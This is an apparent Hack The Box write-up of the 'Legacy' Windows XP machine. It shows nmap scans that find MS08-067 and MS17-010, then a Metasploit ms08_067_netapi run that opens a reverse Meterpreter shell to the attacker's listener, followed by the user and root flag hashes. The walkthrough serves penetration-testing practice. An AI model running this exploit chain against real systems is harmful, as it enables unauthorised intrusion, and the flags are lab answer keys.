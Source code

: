 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: Legacy
tags: []
---
```

**Start 20:20 13/08**

---
```
10.10.10.4
```
## Recon

==Nmap==
```bash
┌──(kali㉿kali)-[~]
└─$ nmap 10.10.10.4                      
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-13 19:18 IST
Nmap scan report for 10.10.10.4
Host is up (0.085s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 1.47 seconds
```

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT --script=smb-vuln* -T5 10.10.10.4
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-13 19:29 IST
Nmap scan report for 10.10.10.4
Host is up (0.084s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.35 seconds

```

We see that this `samba` version is indeed vulnerable, and after looking it up online we find many exploits for it. Let's choose one of them.

==Metasploit==
We can use `metasploit` to search for a module that we can use in order to exploit this samba version:

```bash
msf6 > search CVE-2008-4250

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/smb/ms08_067_netapi  2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/smb/ms08_067_netapi
```

We press `use 0` and then `show options` to display all our options.
After setting `RHOSTS` to the target `IP_ADDR`, and `LHOST` to our own IP we can run the exploit.

```bash
msf6 exploit(windows/smb/ms08_067_netapi) > run

[*] Started reverse TCP handler on 10.10.14.24:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (176198 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.24:4444 -> 10.10.10.4:1038) at 2024-08-13 19:37:57 +0100

meterpreter > 
```

Afterwards type `shell` to get a `Powershell shell`.

```bash
meterpreter > shell
Process 288 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

From here on it's a piece of cake. We got `root` permissions so we can get both flags in their respective directories.

## Flags

==user.txt==
```powershell
C:\Documents and Settings\john\Desktop>type user.txt
type user.txt
e69af0e4f443de7e36876fda4ec7644f
```

==root.txt==
```powershell
C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
993442d258b0e0ec917cae9e695d5713
```

![](../../../assets/0c6c1adb2b45cae6cb027840756a08d7.png)

---

**Finished 20:47 13/08**

[^Links]: [[Hack The Box]] [[OSCP Prep]]
